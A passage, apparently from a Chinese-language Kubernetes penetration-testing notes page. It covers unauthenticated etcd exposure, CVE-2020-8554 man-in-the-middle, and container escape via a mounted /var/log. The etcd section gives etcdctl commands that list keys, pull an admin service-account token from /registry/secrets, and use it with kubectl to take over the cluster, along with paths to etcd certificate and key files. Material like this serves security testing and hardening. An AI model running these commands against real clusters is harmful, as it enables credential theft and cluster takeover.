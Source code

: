     在启动 etcd 时，如果没有指定 `--client-cert-auth` 参数打开证书校验，并且没有通过iptables/防火墙等实施访问控制，etcd 的接口和数据就会直接暴露给外部黑客 "

    下载 https://github.com/etcd-io/etcd/releases/
    ```bash
    etcdctl --endpoints=https://etcd_ip:2379/ get / --prefix --keys-only
    # 查询管理员 token
    etcdctl --endpoints=https://etcd_ip:2379/ get / --prefix --keys-only | grep /secrets/
    # 在 etcd 里查询管理员的 token，然后使用该 token 配合 kubectl 指令接管集群
    etdctl --endpoints=https://etcd_ip:2379/ get /registry/secrets/default/admin-token-xxxxx
    # 拿到 token 以后，用 kubectl 接管集群
    kubectl --insecure-skip-tls-verify -s https://master_ip:6443/ --token="xxxxxx" get nodes

    # 如果要求证书文件,需要将以下文件加入环境变量才能访问（如果有未授权，那么不用带证书都能访问）
    export ETCDCTL_CERT=/etc/kubernetes/pki/etcd/peer.crt
    export ETCDCTL_CACERT=/etc/kubernetes/pki/etcd/ca.crt
    export ETCDCTL_KEY=/etc/kubernetes/pki/etcd/peer.key
    ```

---

## 中间人攻击

**CVE-2020-8554**
- 漏洞描述

    如果攻击者可以创建或编辑服务和容器，则此安全问题使攻击者能够拦截来自群集中其他容器（或节点）的流量。攻击者可利用该漏洞通过 Kubernetes 上的 LoadBalancer 或 ExternalIP 充当中间人，以便在会话中读取或写入数据。

- 相关文章
    - [CVE-2020-8554 Kubernetes中间人攻击漏洞复现与解析，附演示视频](https://mp.weixin.qq.com/s/nFMK5pLKtR2MDJFGppFypw)

- POC | Payload | exp
    - [tdwyer/CVE-2020-8559](https://github.com/tdwyer/CVE-2020-8559)

---

## 容器逃逸

**目录挂载逃逸**
- 相关文章
    - https://tttang.com/archive/1465/#toc__6

**挂载 /var/log 导致容器逃逸**
- 漏洞描述

    当 pod 以可写权限挂载了宿主机的 `/var/log` 目录，而且 pod 里的 service account 有权限访问该 pod 在宿主机上的日志时，攻击者可以通过在容器内创建符号链接来完成简单逃逸。
